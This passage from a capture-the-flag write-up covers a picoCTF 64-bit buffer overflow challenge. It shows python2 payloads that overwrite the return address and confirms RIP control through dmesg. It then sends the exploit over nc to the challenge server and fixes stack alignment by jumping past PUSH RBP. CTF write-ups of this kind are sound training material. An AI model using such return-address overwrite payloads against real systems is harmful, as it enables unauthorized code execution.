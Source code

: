 I can further verify using `dmesg`.

```
>> python2 -c "print 'A'*72+'B'*4" | ./vuln                     
Welcome to 64-bit. Give me a string that gets you the flag: 
zsh: done                python2 -c "print 'A'*72+'B'*4" | 
zsh: segmentation fault  ./vuln

>> sudo dmesg
[89997.663953] vuln[424433]: segfault at 42424242 ip 0000000042424242 sp 00007ffc25f9c8e0 error 14                                                              
[89997.663961] Code: Unable to access opcode bytes at RIP 0x42424218.
```

We need to jump to 0x00401236, which is the `flag()` function address.

![](Images/ghidra-flag-function.png)

Running it locally works.

```
>> python2 -c "print 'A'*72+'\x36\x12\x40\x00\x00\x00\x00\x00'" | ./vuln 
Welcome to 64-bit. Give me a string that gets you the flag: 
Please create 'flag.txt' in this directory with your own debugging flag.
```

However, not on the remote server.

```
>> python2 -c "print 'A'*72+'\x36\x12\x40\x00\x00\x00\x00\x00'" | nc saturn.picoctf.net 53058  
Welcome to 64-bit. Give me a string that gets you the flag: 

```

This is due to the stack misalignment on different machines. Instruction 0x0040123a `PUSH RBP` will cause the stack to misalign on an 64-bit machine. As such, we skip that instruction and use 0x0040123b instead to ensure proper alignment.
